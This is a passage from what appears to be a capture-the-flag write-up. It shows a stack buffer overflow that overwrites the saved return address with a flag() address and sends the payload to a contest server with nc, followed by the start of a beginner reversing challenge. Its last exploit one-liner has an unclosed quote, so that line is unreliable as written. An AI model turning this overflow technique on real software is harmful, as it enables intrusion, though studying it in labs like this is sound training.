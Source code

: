 ```java
 rip = 0x4012bf in main; saved rip = 0x7ffff7a5a2e1
.
.
```
So our target is **0x7ffff7a5a2e1** .. Now by examining the stack:

```java
(gdb) x/100x $rsp
0x7fffffffe560:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe570:	0x41414141	0x00007f00	0x00000000	0x00002af8
0x7fffffffe580:	0x004012e0	0x00000000	0xf7a5a2e1	0x00007fff
.
.
```

It's so clear that **0xf7a5a2e1	0x00007fff** is the saved rip register in little-endian and if we can replace it with the flag() function address which is **0x0000000000401186** we can change the flow of the program to print the flag!

so our final payload will be:

```java
(gdb) r <<< $(python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00'")
```

That was locally, and by applying it to **nc shell.actf.co 20700** it should give us the flag:

```java
$ python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00' | nc shell.actf.co 20700
```

Flag: ```actf{that_gosh_darn_canary_got_me_pwned!}```

---

## Revving Up
#### Reversing (50 points)

### Description
> **Clam wrote a [program](Revving%20Up/revving_up) for his school's cybersecurity club's first rev lecture!<br>
> Can you get it to give you the flag?<br>
> You can find it at /problems/2020/revving_up on the shell server, which you can access via the "shell" link at the top of the site.**

> *Hint: Try some google searches for "how to run a file in linux" or "bash for beginners".*

### solution:
We go to the shell server and to the directory given we'll find 2 files flag.txt and revving_up And by: ``` $ file revving_up ``` we know that it's ELF 64-bit and by running it:

```console
$ ./revving_up
Congratulations on running the binary!
Now there are a few more things to tend to.
Please type "give flag" (without the quotes).

```
After we type "give flag":
```console
give flag
Good job!
Now run the program with a command line argument of "banana" and you'll be done!
```
